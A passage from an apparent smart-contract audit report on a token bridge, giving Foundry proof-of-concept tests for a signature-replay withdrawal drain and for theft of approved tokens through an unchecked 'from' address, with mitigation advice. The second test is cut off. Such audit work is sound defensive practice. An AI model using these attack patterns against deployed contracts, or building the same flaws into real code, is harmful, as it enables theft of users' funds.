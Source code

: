 ```solidity
        token.approve(address(tokenBridge), depositAmount);
        tokenBridge.depositTokensToL2(attacker, attacker, depositAmount);

        assertEq(token.balanceOf(address(vault)), depositAmount * 2);

        // operator signs one withdrawals for attacker
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(
            _getTokenWithdrawalMessage(attacker, depositAmount),
            operator.key
        );

        // attacker replays signature and drains user's funds 
        tokenBridge.withdrawTokensToL1(attacker, depositAmount, v, r, s);
        tokenBridge.withdrawTokensToL1(attacker, depositAmount, v, r, s);
        vm.stopPrank();

        assertEq(token.balanceOf(address(attacker)), depositAmount * 2);
        assertEq(token.balanceOf(address(vault)), 0);
    }

```

**Recommended mitigation** Incorporate a unique nonce and the chain ID into the signed message hash to prevent replay attacks.

### [H-2] Arbitrary `from` Address in `depositTokensToL2` Allows Fund Theft

**Description** The `depositTokensToL2` function uses a user-supplied `from` parameter to specify the source of funds, instead of validating against `msg.sender`.

```solidity
    function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
//...
>>>     token.safeTransferFrom(from, address(vault), amount);
//...
    }
```

**Impact** An attacker can steal funds from any user who has approved the bridge contract. The attacker calls `depositTokensToL2`, setting the `from` parameter to the victim's address and `l2Recipient` to their own, effectively depositing the victim's tokens and receiving the credit on L2.

**Proof of Concepts**

Add the following to the `L1TokenBridge.t.sol`. 

The test demonstrates an attacker depositing a user's approved tokens and designating themselves as the recipient on L2.

```solidity
    function test_audit_arbitraryTransferFrom() public {
        // depositTokensToL2 doesn't use msg.sender
        vm.startPrank(user);
        uint256 depositAmount = 10e18;
        uint256 userInitialBalance = token.balanceOf(address(user));
        // user approve for bridge
        token.approve(address(tokenBridge), depositAmount);
        vm.stopPrank();

        address attacker = makeAddr("attacker");
        vm.prank(attacker);
        // attacker deposits user's funds with their own address in L2
        vm.expectEmit(address(tokenBridge));
        emit Deposit(user, attacker, depositAmount);
        tokenBridge.depositTokensToL2(user, attacker, depositAmount);
```
